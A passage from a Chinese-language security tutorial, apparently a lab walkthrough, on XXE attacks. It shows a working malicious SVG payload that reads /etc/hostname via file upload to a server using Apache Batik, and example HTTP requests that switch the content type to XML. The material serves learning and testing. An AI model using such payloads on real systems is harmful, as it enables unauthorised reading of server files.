 ## 7.2 通过文件上传进行XXE攻击  
1. 一些应用程序允许用户上传文件，然后在服务器端进行处理。一些常见的文件格式使用XML或包含XML子组件。基于XML的格式的例子有DOCX这样的办公文档格式和SVG这样的图像格式。  
  
1. 如应用程序可能允许用户上载图像，并在上载后在服务器上处理或验证这些图像。即使应用程序希望接收PNG或JPEG之类的格式，所使用的图像处理库也可能支持SVG图像。由于SVG格式使用XML，攻击者可以提交恶意SVG图像，从而到达XXE漏洞的隐藏攻击面。  
  
### 实验8：通过图像文件上传利用XXE  
  
**实验目标：**  
- 该实验室允许用户将头像附加到评论中，并使用 Apache Batik 库来处理图像文件。  
  
- 要解决实验室问题，请上传一张图像，该图像在处理后显示/etc/hostname  
文件的内容。然后使用 “Submit solution” 按钮提交服务器主机名的值。  
  
- 提示：SVG 图像格式使用 XML。  
  
SVG教程 (opens new window)  
可用于生成图形，如图所示，五颜六色、还能控制字体。  
  
我们可以读取文件内容，然后将其显示在图像当中。为文字添加颜色，应该就能看到回显了。  
  
创建包含以下内容的本地SVG图像：  
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>

```  
  
在博客文章上发表评论，并将此图像作为头像上传![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jv7IhtdDp3p56tsRxYaxUjlR6RXyrPNfZFd66rtq8WfwDpnV5Fo5IkvtrV2PowcScgvcIWuC2omZQ/640?wx_fmt=png&from=appmsg "")  
打开图片即可![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jv7IhtdDp3p56tsRxYaxUjlypFKpXV0ZoYIXWUY7I8vEREzueFeJWbzqbbCQI0l3Yjq1AjgNzKD5A/640?wx_fmt=png&from=appmsg "")  
  
## 7.3 通过修改内容类型的XXE攻击  
  
1、大多数POST请求使用由HTML表单生成的默认内容类型，例如application/x-www-form-urlencoded。有些网站希望接收这种格式的请求，但也会容忍其他内容类型，包括XML。  
  
例如，如果正常请求包含以下内容：  
```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
 
foo=bar

```  
  
然后，可以提交以下请求，得到相同的结果：  
```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52
 
<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>

```  
  